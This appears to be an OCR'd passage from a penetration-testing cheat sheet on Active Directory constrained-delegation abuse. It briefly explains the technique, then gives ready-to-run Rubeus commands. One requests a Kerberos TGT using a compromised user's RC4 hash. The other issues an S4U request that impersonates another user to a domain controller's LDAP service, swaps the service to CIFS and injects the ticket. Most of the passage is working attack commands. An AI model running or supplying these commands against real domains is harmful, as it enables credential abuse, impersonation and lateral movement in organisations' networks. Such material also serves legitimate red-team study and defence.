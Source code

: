         
        Plaintext Password too Service Access

    Basically this attack works around the basis that you have compromised a plaintext password of a user account that is trusted for Constrained Delegation and/or a RC4 Hash/AES Key. Basically you can use the pass the users password/NTLM hash, request a TGT & execute a request for a TGS ticket and of course access the respective SPN / Service

                !ask tgt

    PS > .\Rubeus.exe asktgt /user:m0chan /domain:m0chanAD.local /rc4:602f5c34346bc946f9ac2c0922cd9ef6

            !Issue S4U Request to Delegated SPN with Specified User
    PS > .\Rubeus.exe s4u /ticket:C:\Temp\Tickets\aidanldap.kirbi /impersonateuser:aidan /msdsspn:ldap/dc.m0chanAD.local /altservice:cifs /ptt


    